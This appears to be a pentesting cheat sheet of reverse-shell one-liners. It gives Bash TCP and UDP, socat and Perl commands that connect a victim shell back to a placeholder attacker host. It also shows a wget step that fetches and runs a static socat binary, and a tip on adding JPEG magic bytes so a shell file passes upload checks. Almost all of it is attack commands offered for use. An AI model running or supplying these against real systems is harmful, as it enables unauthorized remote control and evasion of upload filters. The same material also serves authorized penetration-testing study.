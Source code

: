 ### Reverse Shells

#### create hex profile for jpg in revshell
```bash
File extensions have a magic number, using hex editor add FF D8 FF E0 at start of the D8shell file
```

#### Bash TCP

```bash
bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1

0<&196;exec 196<>/dev/tcp/$ATTACKER_IP/$ATTACKER_PORT; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0<&1 2>&1
```

#### Bash UDP

```bash
Victim:
sh -i >& /dev/udp/$ATTACKER_IP/$ATTACKER_PORT 0>&1

Listener:
nc -u -lvp $ATTACKER_PORT
```

#### Socat

```powershell
user@attack$ socat file:`tty`,raw,echo=0 TCP-L:$ATTACKER_PORT
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$ATTACKER_IP:$ATTACKER_PORT
```
```powershell
user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$ATTACKER_IP:$ATTACKER_PORT
```

Static socat binary can be found at [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

#### Perl

```perl
perl -e 'use Socket;$i="$ATTACKER_IP";$p=$ATTACKER_PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"$ATTACKER_IP:$ATTACKER_PORT");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'


NOTE: Windows only
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"$ATTACKER_IP:$ATTACKER_PORT");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
